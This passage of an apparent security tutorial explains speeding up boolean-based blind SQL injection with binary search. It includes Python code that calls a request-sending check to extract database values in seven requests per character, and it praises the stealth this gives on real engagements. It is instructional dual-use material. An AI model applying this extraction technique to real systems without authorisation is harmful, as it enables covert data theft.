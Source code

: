 {% enddetails %}


## Optimisations with Binary Search

One quick and simple optimisation whenever we’re searching an ordered sequence is to apply binary search. This drastically reduces the max number of requests for each character from 96 to 7.^[This should make sense in bit terms. We only need 7 queries to figure out the 7 bits of an ASCII character. (The first bit is assumed to be 0.) Most Boolean-Based SQLi throwaway scripts don't do binary search because the algorithm is tricky to get right. But it's useful to know, and can be applied to time-based SQLi (another type of blind SQLi) as well for massive time discounts.]

This is a good thing for real life engagements: fewer iterations → less traffic → more sneaky → better opsec.

Normally, binary search relies on three outputs for a test: equals, less-than, and greater-than. But it is possible to make do with just two outputs: less-than, and greater-than-or-equals. If it’s less, we eliminate the upper half; otherwise, we eliminate the lower half.

```python
def binary_search(val: int, low: int, high: int) -> int:
    """Binary search for value between low (inclusive) and high (exclusive),
    assuming the guessed value is within range."""
    while low < high:
        mid = (low + high) // 2
        if low == mid:
            return mid # Found val.
        
        print(f'{low:3} - {high:3}\tGuess: {mid:4}')
        if val < mid:
            high = mid  # Eliminate upper half.
        else:
            low = mid   # Eliminate lower half.
```

Here’s a quick example, where we progress towards 125 in 7 steps (which will translate to 7 HTTP requests later on).

```python
>>> print('result:', binary_search(125, 0, 128))
  0 - 128       Guess:   64
 64 - 128       Guess:   96
 96 - 128       Guess:  112
112 - 128       Guess:  120
120 - 128       Guess:  124
124 - 128       Guess:  126
124 - 126       Guess:  125
result: 125
```

In the code snippets above, `val` is known for demo purposes. But in reality, `val` is unknown; it’s the data we’re trying to exfiltrate. To be more realistic, let's replace the `val` comparisons with a function `check_sql_value()` which sends network requests.

```python
def binary_search(sql_query: str, low: int, high: int) -> int:
    """Find the value of sql_query using binary search, between
    low (inclusive) and high (exclusive). Assuming the guessed value
    is within range."""
    while low < high:
        mid = (low + high) // 2
        if low == mid:
            return mid # Found val.
        
        if check_sql_value(sql_query, mid):
            high = mid
        else:
            low = mid
```
